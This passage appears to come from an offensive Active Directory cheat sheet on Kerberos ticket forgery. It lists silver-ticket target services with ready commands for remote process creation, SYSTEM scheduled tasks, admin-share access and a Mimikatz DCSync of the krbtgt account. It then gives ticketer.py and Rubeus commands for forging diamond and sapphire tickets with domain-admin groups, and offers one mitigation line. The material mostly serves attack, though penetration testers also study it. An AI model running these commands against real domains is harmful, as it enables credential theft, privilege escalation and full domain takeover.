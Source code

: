 Interesting services to target with a silver ticket :

| Service Type | Service Silver Tickets | Attack |
| --- | --- | --- |
| WMI | HOST + RPCSS | `wmic.exe /authority:"kerberos:DOMAIN\DC01" /node:"DC01" process call create "cmd /c evil.exe"` |
| PowerShell Remoting | CIFS + HTTP + (wsman?) | `New-PSSESSION -NAME PSC -ComputerName DC01; Enter-PSSession -Name PSC` |
| WinRM | HTTP + wsman | `New-PSSESSION -NAME PSC -ComputerName DC01; Enter-PSSession -Name PSC` |
| Scheduled Tasks | HOST | `schtasks /create /s dc01 /SC WEEKLY /RU "NT Authority\System" /IN "SCOM Agent Health Check" /IR "C:/shell.ps1"` |
| Windows File Share (CIFS) | CIFS | `dir \\dc01\c$` |
| LDAP operations including Mimikatz DCSync | LDAP | `lsadump::dcsync /dc:dc01 /domain:domain.local /user:krbtgt` |
| Windows Remote Server Administration Tools | RPCSS + LDAP + CIFS | /   |

Mitigations:

- Set the attribute "Account is Sensitive and Cannot be Delegated" to prevent lateral movement with the generated ticket.

### Pass-the-Ticket Diamond Tickets

> Request a legit low-priv TGT and recalculate only the PAC field providing the krbtgt encryption key

Require:

- krbtgt NT Hash
- krbtgt AES key

```ps1
ticketer.py -request -domain 'lab.local' -user 'domain_user' -password 'password' -nthash 'krbtgt/service NT hash' -aesKey 'krbtgt/service AES key' -domain-sid 'S-1-5-21-...' -user-id '1337' -groups '512,513,518,519,520' 'baduser'

Rubeus.exe diamond /domain:DOMAIN /user:USER /password:PASSWORD /dc:DOMAIN_CONTROLLER /enctype:AES256 /krbkey:HASH /ticketuser:USERNAME /ticketuserid:USER_ID /groups:GROUP_IDS
```

### Pass-the-Ticket Sapphire Tickets

> Requesting the target user's PAC with `S4U2self+U2U` exchange during TGS-REQ(P) (PKINIT).

The goal is to mimic the PAC field as close as possible to a legitimate one.

Require:

- [Impacket PR#1411](https://github.com/SecureAuthCorp/impacket/pull/1411)
- krbtgt AES key

```ps1
# baduser argument will be ignored
ticketer.py -request -impersonate 'domain_adm' -domain 'lab.local' -user 'domain_user' -password 'password' -aesKey 'krbtgt/service AES key' -domain-sid 'S-1-5-21-...' 'baduser'
```
